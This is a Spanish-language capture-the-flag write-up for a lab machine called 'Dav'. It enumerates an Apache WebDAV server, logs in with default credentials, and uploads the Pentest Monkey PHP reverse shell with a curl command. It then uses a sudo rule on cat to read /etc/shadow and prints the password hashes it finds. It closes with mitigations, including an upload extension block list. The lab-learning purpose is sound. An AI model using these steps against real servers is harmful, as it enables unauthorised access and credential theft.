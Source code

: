 # Dav
Máquina sencillita y buena para empezar, el file upload es algo que se pasa por alto muchas veces al comprometer un apache

Interesantes: Curl File Upload
## Initial Scan
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enum
No hay muchos servicios entre los que elegir, vayamos a la web
### HTTP
#### Gobusting
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
```
#### Webdav
En el ultimo tenemos un basic authentication, por lo visto hay varios pares de creds por defecto
```
wampp:xampp
jigsaw:jigsaw
```
Probamos estas y con las primeras entramos, dentro del directorio encontramos un archivo llamado passwd.dav
```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```
Podriamos intentrar crackear el hash pero ya que tenemos un user:pass valido podemos intentar subir una reverse shell, en mi caso la de Pentest Monkey
```
 curl http://10.10.62.113/webdav/hell.php -u wampp:xampp --upload-file php-reverse-shell.php
```
Abrimos un listener con netcat en local y accedemos al archivo subido desde el navegador y tenemos shell como www-data, veamos si podemos escalar desde aqui.

## Privesc
```
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
``` 
Nuestro usuario tiene total acceso a lectura de ficheros, con esto podemos leer las flag sin ningun problema

Estuve tanteando si teniamos alguna manera de conseguir escalar a root pero no encontre ninguna de las tipicas, lo unico que podriamos intentar escalar lateralmente hacia Merlin o Wamp si lograsemos crackear su hash
```
merlin:$1$EWeeql.h$8mH.7rEhPRGsOb5ECtmIe1:18134:0:99999:7:::
wampp:$6$f8LMirW0$43znQ5kMsELDO9BdUmhbGkUEnVH2OKXZjfEtsyUgbvL79KoJtgLkdbJpHw4OuDDIMtaXjGjkjaRKDv1FFxKsr/:18134:0:99999:7:::
```
Escalar lateralmente hacia Merlin seria una gran idea ya que podemos comprobar que pertenece al grupo de sudo
```
groups merlin
merlin : merlin adm cdrom sudo dip www-data plugdev lpadmin sambashare
```
Podría ser otra manera interesante de escalar privilegios en esta máquina si quisieramos conseguir acceso real en lugar de simplemente leer la flag, pero parece que la contraseña utiliza no esta en rockyou.txt
# Analisís de la intrusión
### Creds por defecto
El servidor webdav presenta las credenciales por defecto lo cual nos permitio el acceso incial
### Unrestricted file upload
El servidor webdabv nos permite subir archivos sin comprobar el tipo de archivo subido, esto nos llevo a conseguir un RCE
### Privileged cat execution
Ejecutar cat de manera privilegiada nos permite obtener acceso a archivos sensibles como /etc/shadow

# Solución
### Unrestricted file upload
En el archivo de configuración de webdav se puede establecer que extensiones no esta permitido subir añadir a la lista .php , php2 , .php3 , .php4 , .php5 , .php6 , .php7 , .php8 , .php9 , .phtm , .aspx , .js , .war 
### Privileged cat execution
Permitir a un usuario regular ejecutar cat como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto

